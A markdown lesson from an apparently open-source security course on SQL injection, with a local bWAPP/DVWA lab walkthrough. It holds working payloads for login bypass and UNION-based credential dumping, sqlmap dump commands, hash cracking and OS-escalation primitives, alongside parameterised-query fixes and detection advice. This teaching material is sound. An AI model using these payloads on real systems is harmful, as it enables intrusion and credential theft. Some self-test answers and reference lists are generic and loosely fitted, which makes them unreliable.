

<!-- SPDX-License-Identifier: GPL-3.0-or-later | Copyright (C) 2026 Nithees Narendra S -->
[Home](../../README.md) › [Vulnerabilities](README.md) › **SQL Injection**

# SQL Injection

Query context, union and error-based extraction, stacked queries and parameterised defences.

<div class="meta-row"><span class="badge b-intermediate">Intermediate</span><span class="badge">⌨ ~72 min hands-on</span><span class="badge">📖 ~24 min read</span><button id="lesson-complete" class="lesson-check"><span class="lbl">Mark complete</span></button></div>

**▶ Here to build, not read? Jump to the [Hands-On Practice](#hands-on-practice).**

**Prerequisites:** [Databases](../00-foundations/databases.md) · [HTTP for Security Testing](../03-web-security/http-protocol.md) · [Web Application Architecture](../03-web-security/web-architecture.md)

## Overview

SQL injection is what happens when a program builds a database query by pasting untrusted
text directly into the query string. The database has no way to know which characters the developer meant
as *code* (keywords, operators, string delimiters) and which arrived from an attacker as *data* — so a
single quote supplied in a form field can end one string literal early and let everything after it be parsed
as SQL. The vulnerability is therefore not a database bug at all; it is a **confusion of code and data** at
the boundary between the application and its data store.

Every SQL injection, from the simplest login bypass to a full database dump, is a variation on that one
idea: the attacker supplies input that changes the *structure* of the query rather than just its values.
The fix follows directly from the diagnosis. If you send the query structure and the user-supplied values to
the database **separately** — a parameterised (prepared) statement — the database parses the structure once,
with the values bound as opaque data that can never be reinterpreted as syntax. Understand injection as a
code/data confusion and both the exploit and the cure become obvious.

### How it works

Consider a login that builds its query like this:

```python
q = "SELECT * FROM users WHERE user = '" + name + "' AND pass = '" + pw + "'"
```

Supply `name = admin'--` and the query the database actually parses becomes:

```sql
SELECT * FROM users WHERE user = 'admin'-- ' AND pass = '...'
```

The `'` closes the username literal early; `--` comments out the rest of the line, including the password
check. Authentication is bypassed because the attacker rewrote the query's structure. The same primitive
scales up: `UNION SELECT` appends attacker-chosen columns from other tables onto the result set; subqueries
against `information_schema` enumerate the schema; stacked queries (where the driver allows them) run entirely
new statements. What crosses the trust boundary is not a value — it is syntax.



<div class="card"><div class="card-title">🔑 Key terms</div>

- **In-band / UNION-based** — Data is exfiltrated through the same channel and response as the injection, e.g. by appending a `UNION SELECT`.
- **Error-based** — The DBMS is coerced into putting query results inside its error messages.
- **Blind (inferential)** — No data is returned directly; the attacker infers it one bit at a time from boolean responses or timing.
- **Out-of-band (OOB)** — Results are exfiltrated over a separate channel the DBMS can trigger, e.g. a DNS lookup.
- **Stacked queries** — Multiple statements in one call (`; DROP TABLE ...`), only where the driver permits it.
- **Second-order** — Input is stored safely, then later used unsafely in a different query.

</div>

> [!EXAMPLE] **In the wild.** **TalkTalk (2015).** An unauthenticated SQL injection in a legacy web page exposed the personal
data of ~157,000 customers. The UK ICO fined TalkTalk £400,000, noting the vulnerability was well known and the
fix (parameterised queries) was long-established. Reconstruct the chain in the lab: an injectable parameter →
schema enumeration → data dump, and confirm that a single prepared statement would have closed it entirely.

## Hands-On Practice

> [!TIP] This is the main event. Bring up the lab, then work the walkthrough — every command has a **▸ Run** button (needs the lab runner) and a **📋 Copy** button. ~72 min, Kali attacker, fully local.

**Mission.** Confirm an injection, extract the database by hand with UNION, automate with sqlmap, then fix it.

```cf-lab
{"title": "Vulnerabilities", "section": "04-vulnerabilities", "targets": [["bWAPP / DVWA / Juice Shop", "the web bug targets (see the Web Security part environment)"], ["pwn-box", "Ubuntu build/debug container for buffer/heap/format-string labs"]], "compose": "# vuln-lab/docker-compose.yml  —  Vulnerabilities part environment\nservices:\n  bwapp:\n    image: raesene/bwapp\n    ports: [\"8081:80\"]\n    networks: [labnet]\n  dvwa:\n    image: vulnerables/web-dvwa\n    ports: [\"8082:80\"]\n    networks: [labnet]\n  pwn-box:\n    image: ubuntu:22.04\n    container_name: pwn-box\n    cap_add: [\"SYS_PTRACE\"]          # allow gdb inside the container\n    security_opt: [\"seccomp=unconfined\"]\n    command: sleep infinity\n    networks: [labnet]\n\nnetworks:\n  labnet:\n    driver: bridge"}
```

**Target for this lesson:** bWAPP → *SQL Injection (GET/Search)* at http://localhost:8081 (set security LOW). Full setup: [Vulnerabilities lab environment](README.md#lab-environment).

### Guided walkthrough

<div class="stepper">

```cf-step
{"n": 1, "goal": "Confirm the input reaches SQL", "cmd": "curl -s \"http://localhost:8081/sqli_1.php?title='&action=search\" | grep -i error", "output": "You are an error in your SQL syntax ... near '''", "why": "A single quote breaks the query — proof your input is being parsed as SQL, not data.", "runnable": true}
```
```cf-step
{"n": 2, "goal": "Find the column count", "cmd": "http://localhost:8081/sqli_1.php?title=x' ORDER BY 8-- -&action=search   # increase until it errors", "output": "ORDER BY 8 → error;  ORDER BY 7 → OK   ⇒ 7 columns", "why": "UNION needs a matching column count; ORDER BY probes it without guessing blindly.", "runnable": false}
```
```cf-step
{"n": 3, "goal": "Reflect data with UNION", "cmd": "http://localhost:8081/sqli_1.php?title=x' UNION SELECT 1,2,3,4,5,6,7-- -&action=search", "output": "The page prints '2', '3'... — those columns are reflected and usable.", "why": "Now you know which columns render, so you can place real queries there.", "runnable": false}
```
```cf-step
{"n": 4, "goal": "Dump credentials", "cmd": "...UNION SELECT 1,login,password,4,5,6,7 FROM users-- -", "output": "A_I_M / 6885858486f31043e5839c735d99457f044833db (an MD5 hash)", "why": "You extracted real rows; the hash can be cracked offline (hashcat -m 0).", "runnable": true}
```
```cf-step
{"n": 5, "goal": "Automate + validate", "cmd": "sqlmap -u \"http://localhost:8081/sqli_1.php?title=x&action=search\" --cookie=\"...\" --batch --dump -T users", "output": "sqlmap identifies the injection type and dumps the users table.", "why": "sqlmap confirms your manual finding and shows how a tool scales it.", "runnable": true}
```
```cf-step
{"n": 6, "goal": "Fix and re-test", "cmd": "# parameterised: cur.execute('SELECT ... WHERE title = %s', (title,))", "output": "After the fix, the quote payload returns *no rows* instead of an error.", "why": "Parameterisation sends structure and data separately — the class is closed, not just one payload.", "runnable": false}
```

</div>

### Live terminal

```cf-terminal
{"title": "kali@sql-injection — start the lab runner for a live shell"}
```

### Try it yourself

> [!NOTE] Try each for real. Open the hint only when stuck, the solution only to check.

**Challenge 1.** Extract the database version and current user using only the UNION injection (no sqlmap).

<details><summary>Hint</summary>

Put `@@version` and `current_user()` in two reflected columns.

</details>
<details><summary>Solution</summary>

`...UNION SELECT 1,@@version,current_user(),4,5,6,7-- -`

</details>

**Challenge 2.** Crack one dumped password hash offline and log in as that user.

<details><summary>Hint</summary>

The hashes are unsalted MD5. `hashcat -m 0 hash.txt rockyou.txt`.

</details>
<details><summary>Solution</summary>

e.g. the hash for `bee` cracks to `bug`; log in to confirm.

</details>

**Challenge 3.** Raise DVWA to security level *medium* and get the same data — what changed and why?

<details><summary>Hint</summary>

Medium uses `mysqli_real_escape_string` and a POST id; escaping ≠ parameterising.

</details>
<details><summary>Solution</summary>

Numeric context often isn't quoted, so `1 UNION SELECT ...` still works — escaping strings doesn't help numeric injection.

</details>

### Quick quiz

```cf-quiz
{"q": "Which control actually eliminates SQL injection (not just slows it)?", "options": ["A Web Application Firewall", "Escaping single quotes", "Parameterised / prepared statements", "Hiding SQL error messages"], "answer": 2, "explain": "Parameterisation sends query structure and data separately, so input can never be parsed as SQL. WAFs and hidden errors only raise the bar."}
```
```cf-quiz
{"q": "You inject `' ORDER BY 8-- -` and get an error, but `ORDER BY 7` works. What did you learn?", "options": ["The table has 7 rows", "The query returns 7 columns", "The database is MySQL", "There are 7 users"], "answer": 1, "explain": "ORDER BY n fails when n exceeds the column count, so 7 works / 8 errors means 7 columns — exactly what a UNION needs to match."}
```

### Detect & defend (blue-team view)

- Tail the target's access log while you attack: the `'`, `UNION`, and `information_schema` markers stand out.
- Write a Sigma rule matching `union.*select` / `information_schema` in URI parameters and test it against the captured log.

### Skills check

You can move on when you can, without notes:

- [ ] Identify an injectable parameter and its context (string vs numeric).
- [ ] Extract arbitrary data with a hand-built UNION query.
- [ ] Automate and validate with sqlmap, and explain what it did.
- [ ] Remediate with parameterised queries and prove the class is closed.

### Going deeper — Exploitation methodology

A disciplined SQLi assessment follows a fixed order — jumping straight
to a tool wastes the understanding that makes the tool trustworthy.

1. **Find the injectable context.** Add a `'`, a `"`, or a numeric operator and watch for errors, changed
   responses, or timing shifts. Determine whether you are inside a string, a number, an `ORDER BY`, or a
   `LIKE`.
2. **Confirm and shape.** Prove control with a tautology (`' OR '1'='1`) and a false variant (`' AND '1'='2`).
   For UNION, find the column count with `ORDER BY n` until it errors, then find a reflected column type with
   `UNION SELECT NULL, 'x', NULL`.
3. **Enumerate.** Read `information_schema.tables` and `.columns` (or DBMS equivalents) to map the schema.
4. **Extract.** Pull the target data; for blind, script a boolean/time oracle to recover bytes.
5. **Escalate.** Read files, write files, or reach the OS where the DBMS and its privileges allow it
   (`LOAD_FILE`, `INTO OUTFILE`, `xp_cmdshell`, `COPY ... PROGRAM`).

Automate only after you can do each step by hand:

```bash
sqlmap -u 'http://TARGET/item?id=1' --batch --technique=BEU --dbs
sqlmap -u 'http://TARGET/item?id=1' --batch -D shop -T users --dump
```


### Going deeper — Defence in depth

**Primary control — parameterise every query.** This is not "escape the
input"; it is "never build the query out of the input at all":

```python
cur.execute("SELECT * FROM users WHERE user = %s AND pass = %s", (name, pw))
```

Layer additional controls, each of which limits blast radius when the primary control is missed somewhere:

- **Least-privilege DB accounts** — the web app's account should not own `FILE`, `xp_cmdshell`, or DDL.
- **Allow-list where structure is dynamic** — column/table names cannot be parameterised; map user input to a
  fixed set of known-good identifiers.
- **Stored-procedure discipline** — safe only if the procedure itself does not build dynamic SQL from input.
- **WAF** — a speed bump and detection signal, never a fix; assume it can be bypassed.
- **Detection** — log and alert on query errors, `UNION`/`information_schema` in parameters, and unusual
  result volumes.


## Check Yourself

_Quick self-test — answers hidden. If you can't answer without notes, redo the relevant walkthrough step._

**Q1. In one sentence, what security problem does SQL Injection address or create?**

<details><summary>Show answer</summary>

SQL Injection matters because its behaviour determines where trust is placed; misplacing that trust is the root of the associated bug class.

</details>

**Q2. Name one trust boundary involved in SQL Injection and what crosses it.**

<details><summary>Show answer</summary>

Any point where attacker-influenced data meets privileged processing — e.g. user input reaching an interpreter, or a token reaching a verifier.

</details>

**Q3. Give one attack against SQL Injection and the single control that most reduces its impact.**

<details><summary>Show answer</summary>

State the attack precisely, then the *primary* control (validation, encoding, isolation, authentication, or least privilege) — not a laundry list.

</details>

**Interview angles**

- Walk me through how SQL Injection works, then tell me where you would attack it.
- How would you detect SQL Injection being abused in an environment you defend?
- What is the difference between mitigating and eliminating the risk associated with SQL Injection?

## Pitfalls & Best Practice

**Common mistakes**

- Escaping quotes by hand instead of parameterising — misses numeric contexts, encodings and edge cases.
- Assuming an ORM makes you immune — raw fragments, `.raw()`, and dynamic `ORDER BY` reintroduce injection.
- Fixing one endpoint's payload while leaving the class present everywhere else the pattern is used.
- Trusting a WAF as the control rather than as a detection layer.
- Ignoring second-order injection: input stored safely can still be used unsafely later.

**Do this instead**

- Parameterise every query, without exception; treat any string-built SQL as a defect in code review.
- Give the application database account the least privilege it can function with.
- Allow-list identifiers (table/column/sort) that cannot be bound as parameters.
- Add regression tests that fire representative SQLi payloads at every input.
- Instrument the database and app for query errors and injection markers, and alert on them.

## Reference

### MITRE ATT&CK Mapping

| Technique | ID |
| --- | --- |
| ATT&CK technique | [T1190](https://attack.mitre.org/techniques/T1190/) |

### OWASP Mapping

- [A03:2021 Injection](https://owasp.org/Top10/A03_2021-Injection/)

### CWE Mapping

| CWE | Weakness |
| --- | --- |
| [CWE-89](https://cwe.mitre.org/data/definitions/89.html) | SQL Injection |
| [CWE-564](https://cwe.mitre.org/data/definitions/564.html) | Hibernate Injection |

### CAPEC Mapping

| CAPEC | Attack pattern |
| --- | --- |
| [CAPEC-66](https://capec.mitre.org/data/definitions/66.html) | SQL Injection |
| [CAPEC-7](https://capec.mitre.org/data/definitions/7.html) | Blind SQL Injection |

### CVE References

- [CVE-2012-1823](https://nvd.nist.gov/vuln/detail/CVE-2012-1823)
- [CVE-2019-11510](https://nvd.nist.gov/vuln/detail/CVE-2019-11510)

### NIST References

- [NIST CSRC Publications](https://csrc.nist.gov/publications) — search for the control family or guide relevant to this topic.

### RFC References

- No governing RFC for this topic. Where a protocol is involved, its RFC is linked from the relevant networking chapter.

### Research Papers

- *Reflections on Trusting Trust* — Ken Thompson, 1984
- *Smashing the Stack for Fun and Profit* — Aleph One, Phrack 49, 1996
- *The Protection of Information in Computer Systems* — Saltzer & Schroeder, 1975

### Books

- *The Web Application Hacker's Handbook, 2nd ed.* — Stuttard & Pinto
- *Real-World Bug Hunting* — Peter Yaworski
- *The Tangled Web* — Michal Zalewski
- *Web Security for Developers* — Malcolm McDonald

### Official Documentation

- [OWASP SQLi Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

### Related Chapters

- [Blind SQL Injection](blind-sql-injection.md)
- [NoSQL Injection](nosql-injection.md)
- [OS Command Injection](command-injection.md)
- [OWASP Top 10](../03-web-security/owasp-top-10.md)
- [Vulnerability Taxonomy](vulnerability-taxonomy.md)
- [Cross-Site Scripting](xss.md)

---

_Part of the **Vulnerabilities** section of [Cybersecurity-Mastery](../../README.md). 🟡 Intermediate · ~72 min hands-on · Last updated 2026-08-13._
